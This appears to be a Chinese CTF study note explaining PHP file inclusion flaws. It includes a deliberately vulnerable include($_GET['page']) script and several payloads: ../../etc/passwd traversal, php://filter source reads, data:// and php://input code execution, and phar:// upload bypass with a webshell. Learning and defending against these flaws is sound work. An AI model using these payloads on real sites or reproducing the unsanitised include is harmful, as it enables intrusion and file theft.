



**1.原理**
   把代码写入文件，需要执行时直接调用文件进行运行，导致客户端可以调用其他的恶意文件，造成文件包含漏洞
但是前提也是当文件包含的代码文件被当作一个变量来使用，并且能够被用户传入参数，如果没有对该变量做相应的安全防护，就可能会引发出文件包含漏洞
File Inclusion（文件包含），是指当服务器开启了allow_url_include选项时，通过一些PHP的特性函数（比如：include()，require()，include_once()和require_once()）利用URL去动态包含文件，此时如果没有对文件来源进行严格审查，就会导致任意文件读取或者任意命令执行。
**这里可以理解成通过URL的参数对文件进行执行，也就是参数内容包含文件名，因为存在文件包含漏洞，就有包含函数include等直接对这个文件进行执行**
**2.文件包含分类**
本地文件包含：当被包含的文件在本地服务器时，就叫做本地文件包含​
例：../../../../../etc/passwd
远程文件包含：当被包含的文件在第三方服务器时，就叫做远程文件包含
 例：http://www.baidu.com 可以直接打开百度  
3.常见的包含函数

```plain
include()   当使用该函数包含文件时，只有代码执行到include()函数时才将文件包含进来，发生错误时只给出一个警告，继续向下执行
include_once()   功能和include()相同，区别在于当重复调用同一文件时，程序只调用一次
require()   require()与include()的区别在于require()执行如果发生错误，函数会输出错误信息，并终止脚本的运行 。使用require()函数包含文件时，只要程序一执行，立即调用文件，而include()只有程序执行到函数时才调用 .require()在php程序执行前执行，会先读入 require 所指定引入的文件，使它变成 PHP 程序网页的一部份。
require_once()   它的功能与require()相同，区别在于当重复调用同一文件时，程序只调用一次
```
3.文件包含漏洞特点
    1.无视文件扩展名
     含有php代码的php文件的文件后缀改为jdg等仍会执行php代码
    2. 无条件解析PHP代码
    文件包含漏洞在读取源码的时候，若遇到符合PHP语法规范的代码，将会无条件执行。
4.环境搭建
在index.php文件里面写入漏洞，比如

```plain
<?php
// index.php

// 获取 page 参数
if (isset($_GET['page'])) {
    // 没有过滤和验证的情况下，直接包含用户提供的文件
    $page = $_GET['page'];
    //include($page . '.php');
    include($page);//这样也可以，这里要输入php文件后缀，上面直接输入文件名
    // 文件包含漏洞
} else {
    echo "Welcome to the site!";
}
?>
```
然后就可以通过这个网站来访问php或其他文件比如html，txt等，但是只有php文件会执行代码，这里可以用绝对路径和相对路径，绝对路径可以访问任意本地文件和其他网址，比如?page=https://baidu.com,相对路径可以访问本文件夹和上面的文件夹，使用../退一级，以此类推
​
#   php伪协议
1.f**ile_get_contents（1.php） 读取文件内容**
1 file:// — 访问本地文件系统
2 http:// — 访问 HTTP(s) 网址
3 ftp:// — 访问 FTP(s) URLs
4 php:// — 访问各个输入/输出流（I/O streams）
5 zlib:// — 压缩流
6 data:// — 数据（RFC 2397）
7 glob:// — 查找匹配的文件路径模式
8** phar:// **— PHP 归档
9 ssh2:// — Secure Shell 2
10 rar:// — RAR
11 ogg:// — 音频流
12 expect:// — 处理交互式的流
​
**1.php://filter**获取文件指定源码，通过对其进行编码让其不当做php文件执行 （针对php文件需要base64编码）  
?file=php://filter/read=convert.base64-encode/resource=flag.php
可以这样理解，include函数把php脚本执行，而这里面比如

```plain
<?php
echo "Can you find out the flag?";
//flag{60516946-d154-4f20-bcef-d7f28d181851}

```
只是添加了注释的，并没有打印flag，所以直接进行包含这个文件是无法得到flag，但是如果用伪协议过滤器就会获取源码并转换成base64编码后再返回给include函数，但此时已经没有<php标签了，此时php就会把这段编码当成普通文本输出，所以可以看到flag编码
##### 转换过滤器
对数据流进行编码，可以让php文件不执行，读取文件源码
convert.base64-encode & convert.base64-decode
字符过滤器  string 对所有字符进行相同的操作
string.rot13/toupper大写/tolower小写
strip_tags  用来处理掉读入的所有标签，例如XML的等。在绕过死亡exit大有用处。  

2.

**3.data协议**
 当它与包含函数结合时，用户输入的data://流会被当作php文件执行。  
?a=data://text/plain,要读取的内容
?a=data://text/plain,I want flag 

```plain
<?php
ini_set("max_execution_time", "180");
show_source(__FILE__);
include('flag.php');
$a= $_GET["a"];
if(isset($a)&&(file_get_contents($a,'r')) === 'I want flag'){
    echo "success\n";
    echo $flag;
} 
?a=data://text/plain,I want flag 
```

```plain
1、data://text/plain,
http://127.0.0.1/include.php?file=data://text/plain,<?php%20phpinfo();?>
 
2、data://text/plain;base64,
http://127.0.0.1/include.php?file=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b

```
**4.file协议**
用于访问本地文件系统，并且不受allow_url_fopen，allow_url_include影响
file:///协议主要用于访问文件(绝对路径、相对路径以及网络路径)
比如：[http://www.xx.com?file=file:///etc/passsword](http://www.xx.com?file=file:///etc/passsword)
5.**php://input**
php://input可以访问请求的原始数据的只读流，将post请求的数据当作php代码执行。当传入的参数作为文件名打开时，可以将参数设为php://input,同时post想设置的文件内容，php执行时会将post内容当作文件内容。从而导致任意代码执行。
例如：
[http://127.0.0.1/cmd.php?cmd=php://input](http://127.0.0.1/cmd.php?cmd=php://input)
以POST方式传入：<?php phpinfo()?>
注意：
当enctype="multipart/form-data"的时候 php://input` 是无效的
遇到file_get_contents()要想到用php://input绕过。
6**.glob://**
查找匹配的文件路径模式
  glob:///secret/* 查找secret文件路径
$paths = glob('glob:///*.txt');
一般配合遍历目录的类来使用，如DirectoryIterator和
**7. zip://**
zip:// 可以访问压缩包里面的文件。当它与包含函数结合时，zip://流会被当作php文件执行。从而实现任意代码执行。

```python
zip://中只能传入绝对路径。
要用#分隔压缩包和压缩包里的内容，并且#要用url编码%23（即下述POC中#要用%23替换）
只需要是zip的压缩包即可，后缀名可以任意更改。
相同的类型的还有zlib://和bzip2://
```


**8.phar：//**
`phar://`伪协议，可以将任意后缀名的压缩包（原来是 .phar 或 .zip，注意：PHP > =5.3.0 压缩包需要是zip协议压缩，rar不行 ) 解包，从而可以通过上传压缩包绕过对后缀名的限制，再利用伪协议实现文件包含。
**用法：**?file=phar://压缩包/内部文件，eg：`?file=phar://muma.zip/muma.php`
这里的例题就是[NISACTF 2022]bingdundun~
就是上传文件只能上传jpg和zip文件，然后会自动在文件后缀添加php，这里用到phar伪协议，也就是传入一个一句话马压缩成的zip文件，然后使用phar文件进行解压，从而绕过过滤，上传后蚁剑要连接的是使用phar伪协议读取的php文件，但是不用加后缀
[http://node5.anna.nssctf.cn:25350/?bingdundun=phar://94c8872e2c8bfeb19339566aba349cb5.zip/2](http://node5.anna.nssctf.cn:25350/?bingdundun=phar://94c8872e2c8bfeb19339566aba349cb5.zip/2)
然后就能得flag
